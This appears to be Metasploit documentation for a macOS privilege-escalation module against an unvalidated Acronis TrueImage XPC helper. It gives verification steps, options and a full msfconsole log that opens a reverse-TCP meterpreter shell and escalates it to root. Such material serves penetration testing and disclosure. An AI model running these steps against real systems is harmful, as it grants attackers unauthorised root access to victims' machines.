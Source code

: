 ## Vulnerable Application

Acronis TrueImage versions 2019 update 1 through 2021 update 1
are vulnerable to privilege escalation. The `com.acronis.trueimagehelper`
helper tool does not perform any validation on connecting clients,
which gives arbitrary clients the ability to execute functions provided
by the helper tool with `root` privileges.

This module connects to the helper tool and executes the payload via
the helper tool's `executeProcess:arguments:caller:withReply:;` function,
granting a session as `root`.

### Installation Instructions

Run through the installer with all of the defaults. Once the application
is installed, open the application and allow the privileges requested.
That should be enough for the helper tool to be placed in the
`/Library/PrivilegedHelperTools` directory. You should not have to set up
a trial to get the exploit to work.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a meterpreter or shell session on the target
4. Do: `use exploit/osx/local/acronis_trueimage_xpc_privesc`
5. Do: `set SESSION <session_no>`
6. Do: `run`
7. You should get a new session as root.

## Options

### WRITABLE_DIR

Directory to use to write exploit files to

### SHELL

Default shell to use for exploit

### COMPILE

Determines if exploit will be compiled on the target or if a pre-compiled exploit
will be used.

## Scenarios

### Acronis TrueImage Build 22510 on macOS 12.5

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Transmitting first stager...(214 bytes)
[*] Transmitting second stager...(49152 bytes)
[*] Sending stage (810648 bytes) to 192.168.140.204
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.204:53610) at 2022-11-15 08:44:36 -0600

meterpreter > getuid
Server username: space
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           :  (macOS 12.5.0)
Architecture : x64
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/osx/local/acronis_trueimage_xpc_privesc
[*] Using configured payload osx/x64/meterpreter/reverse_tcp
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set session 1
session => 1
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set lport 5555
lport => 5555
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > set verbose true
verbose => true
msf6 exploit(osx/local/acronis_trueimage_xpc_privesc) > run

[*] Started reverse TCP handler on 192.168.140.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable build 22510 found
[*] Attempting to write payload at /tmp/FHQUXzNR
[*] Writing '/tmp/FHQUXzNR' (17204 bytes) ...
[+] Successfully wrote payload at /tmp/FHQUXzNR
[*] Successfully compiled iZMwhN.m...Now executing payload
[*] Transmitting first stager...(214 bytes)
[*] Transmitting second stager...(49152 bytes)
[*] Sending stage (810648 bytes) to 192.168.140.204
[+] Deleted /tmp/FHQUXzNR
[+] Deleted /tmp/iZMwhN.m
[+] Deleted /tmp/iZMwhN
[*] Meterpreter session 2 opened (192.168.140.1:5555 -> 192.168.140.204:53763) at 2022-11-15 08:45:13 -0600

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : spaces-Mac.local
OS           :  (macOS 12.5.0)
Architecture : x64
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
```
